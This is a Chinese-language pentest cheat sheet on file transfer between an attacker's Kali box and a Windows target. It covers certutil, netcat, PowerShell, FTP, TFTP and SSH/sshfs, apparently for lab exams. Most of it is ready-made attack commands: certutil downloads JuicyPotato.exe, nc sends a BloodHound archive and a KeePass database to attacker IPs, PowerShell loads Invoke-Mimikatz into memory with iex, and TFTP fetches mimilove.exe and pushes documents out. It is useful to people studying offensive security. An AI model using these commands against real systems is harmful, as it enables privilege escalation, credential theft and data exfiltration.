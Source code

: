 # certuti
```
certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe
```


# nc

接收文件
```
nc -lvp 139 > 20220518030433_BloodHound.zip
```

传送文件
```
nc.exe 192.168.119.149 139 < 20220518030433_BloodHound.zip


cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx   #如果是ps的shell
```


# powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"

iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)  #加载进内存
```

# ftp

思路，在kali上安装一个ftp服务，方便靶机（多数时候是windows）回连传送文件

1. kali安装ftp
```
sudo apt update && sudo apt install pure-ftpd
```

2. 编写自动化创建用户脚本

下面会创建一个叫offsec的ftp用户，密码运行脚本时会要求输入
```
kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

3. 执行
```
chmod +x setup-ftp.sh
sudo ./setup-ftp.sh
```

4. 连接
用户是offsec
密码：上面的自定义密码
```
ftp [kali的IP]
```

# tftp
适用于比较旧的windwos操作系统(比如Windows XP 和 2003)传送文件，默认情况下tftp不安装在运行 Windows 7、Windows2008 年及更新版本

> TFTP是一种基于 UDP 的文件传输协议，通常受公司出口防火墙规则的限制。


1. kali安装tftp
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

2. windows上使用tftp
以下模拟widows向kali传送一个important.docx文件
```
tftp -i 10.11.0.4 put important.docx
```


tftp -i 192.168.119.156 get mimilove.exe

tftp -i 192.168.119.156 get test.txt


# ssh建立一个实时的共享文件夹

1. kali执行,这里输入vps的ssh密码
```
ssh -D <pxy转发端口> -R 10000:127.0.0.1:22 <vps user>@<vps IP>
```

例子：
```
ssh -D 9051 -R 10000:127.0.0.1:22 root@207.246.124.194
```

2. vps上执行，这里输入kali 的ssh密码
```
sshfs -p 10000 localuser@127.0.0.1:<local-path> <vps-path>
```

例子，把vps的```/tmp```目录映射到kali的```/root/tmp```
```
sshfs -p 10000 root@127.0.0.1:/root/tmp /tmp
```


